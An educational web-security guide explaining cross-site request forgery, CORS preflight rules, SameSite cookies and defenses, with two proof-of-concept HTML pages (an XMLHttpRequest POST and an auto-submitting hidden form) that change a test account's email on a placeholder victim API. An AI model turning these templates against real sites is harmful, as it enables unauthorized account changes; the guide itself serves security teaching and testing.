


<Callout type="info">
  **Cross-Site Request Forgery (CSRF)** is a web vulnerability that tricks an authenticated user into performing unintended actions on a web application without their knowledge or consent.
</Callout>

## What Is CSRF?

CSRF is categorized under **Broken Access Control** in the **OWASP Top 10** and is tracked by [CWE-352](https://cwe.mitre.org/data/definitions/352.html).

CSRF occurs when an attacker causes a victim's browser to send a request to a target application where the victim is already authenticated. The application receives a request containing the victim's session cookies and may assume the action was intentionally performed by the user.

<Callout type="info" title="Important distinction">
  CSRF does **not** inherently steal the victim's credentials. Instead, it abuses the victim's existing authenticated session.
</Callout>

<Callout type="success" title="Requirements">
  A successful CSRF attack typically requires:

  - The victim to be authenticated to the target application.
  - Authentication to rely on cookies or other credentials automatically attached by the browser.
  - The application to lack effective CSRF protections.
  - The browser to send the necessary credentials with the cross-site request.
</Callout>

## What Actions Can Be Targeted?

CSRF is primarily relevant when a request performs a **state-changing action**.

<Callout type="info" title="Common targets">
  - Changing account settings
  - Updating profile information
  - Changing passwords
  - Adding new users
  - Modifying email addresses
  - Submitting financial transactions
  - Deleting resources

  Requests that only retrieve data are generally not primary CSRF targets. However, a GET request that changes server-side state can still create a CSRF vulnerability.
</Callout>

## How Does the Attack Work?

The attacker creates a malicious page containing a request to a vulnerable application. When the victim visits the attacker's page, the browser may automatically attach the victim's session cookies, depending on the cookie attributes and browser rules.




<Callout type="tip" title="The attacker does not need to steal the session cookie">
  The browser can attach eligible cookies automatically. The attacker exploits the authenticated request rather than directly accessing the victim's cookie value.
</Callout>

---

## Can Any HTTP Request Be CSRFed?

<Callout type="warning">
  Attackers cannot arbitrarily forge every possible HTTP request. Browser restrictions, cookie policies, request formats, and application-side validation all affect whether a CSRF attempt succeeds.
</Callout>

For JavaScript-based requests using `XMLHttpRequest` or `fetch`, the browser's CORS rules distinguish between requests that qualify as **CORS-safelisted requests** and requests that require a preflight `OPTIONS` request.

A failed preflight prevents the browser from sending the corresponding non-safelisted actual request. However, this does **not** mean that CORS universally prevents CSRF: HTML forms and other cross-origin mechanisms can send certain requests without a CORS preflight.

<Accordion title="Allowed methods for CORS-safelisted requests">
  The methods considered safelisted are:

  - `GET`
  - `HEAD`
  - `POST`

  If a state-changing endpoint uses `PUT`, `DELETE`, or `PATCH`, a cross-origin JavaScript request using that method normally requires a preflight. Without the appropriate CORS response, the browser will not send the actual request.

  This is not a universal CSRF defense. Other request mechanisms, application-specific parsing, and separate CORS misconfigurations may change the outcome.
</Accordion>

<Accordion title="Allowed Content-Type values">
  For a `POST` request to qualify as a CORS-safelisted request, its `Content-Type` must be one of these values, subject to the browser's safelist restrictions:

  1. `application/x-www-form-urlencoded` (standard HTML forms)
  2. `multipart/form-data` (file uploads)
  3. `text/plain` (plain text)

  If an endpoint requires `application/json` or `application/xml`, a cross-origin JavaScript request using that content type normally triggers a preflight.

  However, if the server incorrectly parses `text/plain` as JSON or accepts an alternative request format, the content-type restriction may not provide effective protection.
</Accordion>

<Accordion title="Custom headers and preflight">
  If a cross-origin JavaScript request requires a non-safelisted custom header, such as `X-Requested-With` or `X-CSRF-Token`, the browser normally sends a preflight request.

  If the server does not authorize the attacker's origin and requested headers, the browser will not send the actual request.

  The `Authorization` header is also not CORS-safelisted. However, it is not automatically attached like a session cookie, so an attacker generally cannot supply a victim's bearer token without another vulnerability or mechanism.

  **Important:** A custom header is useful only when the server enforces it correctly. A CSRF token must be validated, not merely accepted.
</Accordion>

## SameSite Cookies and CSRF

Modern browsers support the `SameSite` cookie attribute to help mitigate CSRF attacks.

<Callout type="info">
  `SameSite` controls whether a cookie is included in requests initiated from a different **site**. A site is not the same concept as an origin: origins also distinguish schemes and ports, while site calculations generally use the scheme and registrable domain.
</Callout>

### Common Values

| Value | Behavior |
| --- | --- |
| `Strict` | Restricts the cookie to same-site contexts. It is generally not sent with cross-site requests. |
| `Lax` | Allows the cookie in same-site contexts and certain cross-site top-level navigations using safe methods, typically `GET`. |
| `None` | Allows the cookie in cross-site contexts, subject to other browser restrictions. Modern browsers generally require the `Secure` attribute. |

`SameSite` is a defense-in-depth mechanism, not a replacement for proper server-side request validation. Browser behavior and cookie configuration can affect the result.

---

## Advanced SameSite Cookie Scenarios

<Accordion title="What if multiple cookies have different SameSite policies?">
  Applications often set multiple cookies. The success of a CSRF attempt depends on which cookies the backend requires to authenticate and authorize the action.

  **Example scenario:**

  1. `session_id` (authentication cookie) → `SameSite=None`
  2. `csrf_token` (CSRF protection cookie) → `SameSite=Strict`
  3. `tracking_id` (nonessential tracking cookie) → `SameSite=Lax`

  **Will the attack succeed?**

  Not if the backend requires the missing `csrf_token` and correctly validates it.

  Even if `session_id` is sent cross-site, the `csrf_token` cookie may be omitted from the cross-site request because it is `SameSite=Strict`. If the backend requires that cookie and validates its value, the request should be rejected.

  **Important distinction:** A cookie named `csrf_token` is not automatically an effective CSRF defense. The server must validate the token and ensure the attacker cannot simply supply or bypass the required value.
</Accordion>

<Callout type="success" title="Practical SameSite rule">
  A CSRF attack is more likely to succeed when the browser sends all required authentication cookies and the application has no effective request-validation controls.

  - `SameSite=Strict`: Strongly restricts cross-site cookie sending.
  - `SameSite=Lax`: Generally blocks cookies on cross-site POST requests, but allows them on certain top-level safe-method navigations.
  - `SameSite=None`: Permits cross-site cookie sending, subject to `Secure` and other browser policies.

  Do not treat these rules as absolute guarantees. Browser behavior, cookie configuration, and request context matter. Also, a CSRF token stored only in a cookie does not automatically protect an application if the server does not validate it properly.
</Callout>

---

## When SameSite Is Enabled

<Callout type="warning">
  When `SameSite` is configured appropriately, traditional CSRF attacks often fail because the browser omits the relevant session cookie from cross-site requests.
</Callout>

In some scenarios, an attacker may need an additional vulnerability or a weakness in the application's design to bypass these protections, such as:

- Cross-Site Scripting (XSS)
- A vulnerable subdomain that enables cookie-scope manipulation
- Cross-Origin Resource Sharing (CORS) misconfigurations
- Unsafe state-changing GET endpoints
- Inadequate CSRF-token validation or request-origin checks

The presence of one of these issues does not automatically guarantee a successful attack. Exploitability depends on the application's behavior and the browser's security controls.

## What About the Same-Origin Policy (SOP)?

<Callout type="info" title="Does the Same-Origin Policy stop CSRF?">
  The Same-Origin Policy (SOP) restricts malicious websites from reading responses from other origins. However, CSRF does not necessarily require reading the response. It requires the browser to send a request that the target application accepts and processes.
</Callout>



<Callout type="note">
  The attacker may not need to read the response. If the target application processes the unauthorized state-changing request, the damage may already be done.

  SOP and CORS primarily govern cross-origin access and response reading. They are not substitutes for CSRF defenses.
</Callout>

## Proof of Concept (PoC)

Only test against systems you own or are explicitly authorized to assess. Use a test account and a reversible action rather than changing a real user's account.

<Accordion title="PoC 1: XMLHttpRequest with a simple POST">
  If an endpoint accepts a simple POST request and the relevant session cookie is eligible for cross-site sending, the following example can help verify the behavior in an authorized test environment.

  Save the file as `poc.html` and replace the example endpoint and parameter with those from your test application.

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>CSRF Test PoC</title>
  </head>
  <body>
      <h2>CSRF Test</h2>
      <p>Sending a test request to the configured endpoint.</p>

      <script>
          // 1. Create an XMLHttpRequest object.
          const xhr = new XMLHttpRequest();

          // 2. Configure the POST request.
          xhr.open(
              "POST",
              "https://api.victim.com/account/change-email",
              true
          );

          // 3. Use a CORS-safelisted content type.
          xhr.setRequestHeader(
              "Content-Type",
              "application/x-www-form-urlencoded"
          );

          // 4. Report the request outcome locally.
          xhr.onload = function () {
              console.log("HTTP status:", xhr.status);
          };

          xhr.onerror = function () {
              console.log(
                  "The browser could not expose the response to this script."
              );
          };

          // 5. Send a harmless test value in an authorized environment.
          xhr.send("new_email=csrf-test%40example.invalid");
      </script>
  </body>
  </html>
  ```

  **Interpretation notes:**

  - A simple request can be sent without a CORS preflight.
  - Cross-origin cookies are subject to `SameSite`, third-party-cookie restrictions, and other browser policies.
  - `XMLHttpRequest` does not automatically include cross-origin cookies merely because the request is simple. Cross-origin credential sending requires `xhr.withCredentials = true`.
  - Even with `withCredentials = true`, the browser's cookie rules still apply.
  - If the browser blocks access to the response because of CORS, the server may still have received and processed the request.
  - An HTTP `200` response alone does not prove that a state-changing action occurred. Verify the result through the authorized test account or server-side logs.
</Accordion>

<Callout type="info" title="Why does withCredentials matter?">
  For a cross-origin `XMLHttpRequest`, `withCredentials = true` enables credentialed cross-origin requests, including eligible cookies. Without it, cross-origin cookies generally are not sent by `XMLHttpRequest`.

  This differs from a standard HTML form submission, which can submit a cross-origin request without requiring JavaScript to read the response. In both cases, cookie attributes and browser policies determine whether the session cookie is included.
</Callout>

<Accordion title="PoC 2: Hidden HTML form">
  A standard HTML form is a common way to demonstrate CSRF because it can submit a cross-origin form-compatible request without a CORS preflight.

  Use this only with a test account and an endpoint in an authorized environment.

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>CSRF Form Test</title>
  </head>
  <body>
      <form
          id="csrfForm"
          action="https://api.victim.com/account/change-email"
          method="POST"
          enctype="application/x-www-form-urlencoded"
      >
          <input
              type="hidden"
              name="new_email"
              value="csrf-test@example.invalid"
          />
      </form>

      <script>
          // Submit the test form when the page loads.
          document.getElementById("csrfForm").submit();
      </script>
  </body>
  </html>
  ```

  **Testing notes:**

  - The target must accept the form's request format.
  - The browser may omit the session cookie because of `SameSite` or other cookie restrictions.
  - A form submission does not require the attacker's script to read the response.
  - Confirm the outcome using the authorized test account or server-side logs.
</Accordion>

## Key Takeaways

<Callout type="success" title="Summary">
  - CSRF can cause authenticated users to perform unwanted actions.
  - It commonly exploits browsers automatically attaching eligible session cookies.
  - State-changing operations are the primary targets.
  - Cookie-based authentication is a common CSRF attack scenario, but the underlying issue is insufficient protection against forged requests.
  - `SameSite` cookies can significantly reduce CSRF risk, but should not be the only defense.
  - The Same-Origin Policy does not inherently prevent a cross-origin request from being sent.
  - CORS restrictions on reading responses do not, by themselves, prevent all CSRF attacks.
  - Modern applications should combine CSRF tokens, appropriate `SameSite` settings, strict request validation, and server-side authorization.
</Callout>
